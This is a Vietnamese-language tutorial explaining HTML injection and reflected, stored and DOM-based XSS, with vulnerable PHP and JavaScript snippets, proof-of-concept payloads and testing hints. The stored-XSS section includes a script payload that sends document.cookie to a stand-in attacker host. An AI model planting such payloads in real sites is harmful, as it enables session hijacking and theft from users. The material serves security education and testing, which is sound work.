 
# Tổng quan: HTML Injection vs XSS

* **HTML Injection**: attacker được phép đưa vào chuỗi HTML (ví dụ `<b>`, `<img>`, `<script>`), làm thay đổi layout hoặc hiển thị nội dung không mong muốn. Không nhất thiết chứa mã JS — có thể chỉ là chèn markup.
* **XSS (Cross-Site Scripting)**: một dạng HTML Injection **khi attacker có thể chèn mã JavaScript** hoặc tạo điều kiện để mã độc thực thi trong trình duyệt nạn nhân. Mục tiêu thường là đánh cắp cookie/session, CSRF nâng cao, DOM tampering, redirect, keylogger, crypto-jacking, v.v.

Sơ đồ ngắn:
Input không an toàn → được render trong HTML/attribute/JS/URL → mã attacker chạy => XSS.

# Các dạng XSS (chi tiết, cách nhận biết & ví dụ)

## 1) Reflected XSS (Non-persistent)

* **Mô tả:** payload đi kèm request (query string, POST, header) và server "reflected" trực tiếp payload vào response. Không lưu trên server.
* **Khi nào xảy ra:** search pages, error messages, redirect parameters, any echo of user input.
* **Ví dụ (vulnerable):**

  ```html
  <!-- server trả về -->
  <p>Search result for: <?php echo $_GET['q']; ?></p>
  ```

  Nếu `q=%3Cscript%3Ealert(1)%3C%2Fscript%3E` => alert chạy.
* **Dò kiểm thử:** thử payload trong URL, kiểm tra response HTML, dùng Burp Repeater.

## 2) Stored XSS (Persistent)

* **Mô tả:** attacker lưu payload vào DB (comment, profile, message) — payload sẽ được hiển thị cho các user khác => potent.
* **Ví dụ:** form comment lưu `"<script>fetch('https://attacker?c='+document.cookie)</script>"`. Khi admin xem comment, cookie bị leak.
* **Dò kiểm thử:** kiểm tra mọi chỗ lưu dữ liệu: comment, profile bio, upload filename, DB fields.

## 3) DOM-based XSS (Client-side)

* **Mô tả:** server trả HTML không chứa payload, nhưng JavaScript ở client-side lấy input (location.hash, document.location, document.referrer, innerHTML từ user-controlled data) và gán vào DOM mà không sanitize — payload thực thi hoàn toàn ở client. Không cần server-side vulnerable echo.
* **Ví dụ (vulnerable client code):**

  ```js
  // nguy hiểm
  document.getElementById('out').innerHTML = location.hash.substring(1);
  ```

  `page.html#<img src=x onerror=alert(1)>` → chạy.
* **Dò kiểm thử:** kiểm tra scripts trên page, search uses of `innerHTML`, `document.write`, `eval`, `setInnerHTML`, `location`, `document.referrer`, `postMessage` handlers.
